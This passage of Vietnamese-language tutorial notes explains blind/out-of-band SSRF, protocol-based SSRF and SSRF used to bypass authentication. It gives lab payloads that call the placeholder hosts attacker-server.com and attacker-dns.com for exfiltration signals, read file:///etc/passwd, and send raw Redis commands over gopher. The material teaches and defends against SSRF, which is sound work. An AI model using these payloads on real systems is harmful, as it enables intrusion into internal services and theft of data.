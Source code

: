 
## C. Blind SSRF / OOB SSRF

**Mô tả:** server không trả nội dung fetch cho user — attacker không thấy kết quả trực tiếp. Thay vào đó attacker dùng một server mà họ kiểm soát và chờ server mục tiêu thực hiện các request (DNS/HTTP) tới attacker → exfiltration signal.

**Ví dụ workflow:**

* Attacker cung cấp URL: `http://attacker-server.com/collect?tag=1`
* Target server request URL → attacker server log thấy request → chứng thực SSRF "vulnerable".

**OOB payload (lab):**

```
https://victim/fetch?url=http://attacker-server.com/pwn
```

Hoặc dùng DNS exfil: `http://<random>.attacker-dns.com/` để nhìn thấy DNS lookup.

**Hậu quả:** phát hiện SSRF ngay cả khi response được che; exfiltrate nhỏ dữ liệu bằng cách encode vào path/params.


## D. Protocol-based SSRF (non-HTTP: file:/, gopher:, ftp:, smb:, dict:, ldap:)

**Mô tả:** một số HTTP client / URL handlers hỗ trợ nhiều scheme — attacker dùng scheme khác để lạm dụng dịch vụ khác (file, gopher → raw TCP, ldap → dùng để query LDAP).

**Ví dụ thực tế:**

* `file:///etc/passwd` — server đọc file cục bộ và trả nội dung (nếu client/handler hỗ trợ file scheme).
* `gopher://127.0.0.1:6379/_<raw-redis-protocol>` — dùng gopher để gửi raw bytes tới Redis (có thể chạy AUTH, GET/SET).
* `ftp://attacker/` — có thể trigger outbound FTP connections (logs).
* `ldap://127.0.0.1:389/...` — query LDAP nội bộ.

**Payload mẫu (lab):**

```
/fetch?url=file:///etc/passwd
/fetch?url=gopher://127.0.0.1:6379/_SET%20key%20value%0d%0a
```

*(gopher requires encoding raw protocol)*

**Hậu quả:** tương tác với dịch vụ nội bộ không phải HTTP; có thể thao tác database, cache, v.v.


## E. SSRF leading to Authentication Bypass / Privileged Actions

**Mô tả:** server có thể sử dụng internal endpoint với cookie/session/token riêng — attacker ép server gọi endpoint nội bộ để thực hiện hành động có quyền (ví dụ admin-only API) dùng session của server.
